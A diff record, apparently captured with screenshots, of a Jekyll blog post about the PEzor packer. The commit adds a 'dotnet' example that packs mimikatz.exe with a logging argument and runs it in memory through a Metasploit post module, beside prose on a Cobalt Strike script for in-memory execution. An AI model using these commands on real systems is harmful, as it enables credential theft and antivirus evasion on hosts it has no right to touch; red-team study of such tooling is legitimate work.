

Before and after one commit to phra/phra.github.io, a Jekyll site: the page built from posts/PEzor2.md, in a window 1280 px wide and 900 px high, scrolled down 4196 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fix: add dotnet example

````diff
--- a/posts/PEzor2.md
+++ b/posts/PEzor2.md
@@ -124,6 +124,21 @@
 
 ![PEzor with Metasploit](../assets/images/pezor-metasploit.jpg "PEzor with Metasploit")
 
+- **dotnet**
+
+```
+# generate
+$ PEzor -format=dotnet mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'
+
+# execute
+msf5 > use post/windows/manage/execute_dotnet_assembly
+msf5 post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE mimikatz.exe.packed.dotnet.exe
+msf5 post(windows/manage/execute_dotnet_assembly) > set WAIT 10
+msf5 post(windows/manage/execute_dotnet_assembly) > run
+```
+
+![PEzor with Metasploit](../assets/images/pezor-metasploit2.jpg "PEzor with Metasploit")
+
 ## Cobalt Strike Integration
 
 Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll or dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).
````
Also changed, not shown: assets/images/pezor-metasploit2.jpg (added).
